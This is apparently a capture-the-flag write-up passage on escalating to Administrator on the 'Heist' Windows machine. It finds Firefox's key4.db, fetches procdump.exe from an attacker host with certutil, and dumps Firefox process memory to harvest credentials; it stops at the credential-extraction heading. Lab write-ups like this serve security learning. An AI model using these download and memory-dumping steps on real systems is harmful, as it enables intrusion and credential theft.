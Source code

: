 # Privilege escalation to Administrator
## Firefox Credential files found 
Firefox Credential file found in  `C:\Users\Chase\AppData\Roaming\Mozilla\Firefox\Profiles\77nc64t5.default\key4.db`, which indicates that firefox process is owned by user `chase` and some  credentials in memory can be dumped via from firefox process.
![[Pasted image 20210712100645.png]]
## Firefox process found in processes list
Issuing command `Get-Process | where {$_.ProcessName -notlike "svchost*"} | ft ProcessName, Id` gave list of processes which included `firefox`.
![[Pasted image 20210712101521.png]]
## Getting memory dump of firefox processes via procdump utility
Transferred `procdump.exe` file to `Heist` machine using `Certutil` utility and command `certutil.exe -urlcache -f http://10.10.14.71:8000/procdump.exe procdump.exe`.
![[Pasted image 20210712104544.png]]
Knowing PID of firefox processes.
![[Pasted image 20210712104744.png]]
Dumping contents of all firefox processes using `.\procdump.exe -ma [PID]` command.
![[Pasted image 20210712105452.png]]
## Getting administrator credentials from dumps
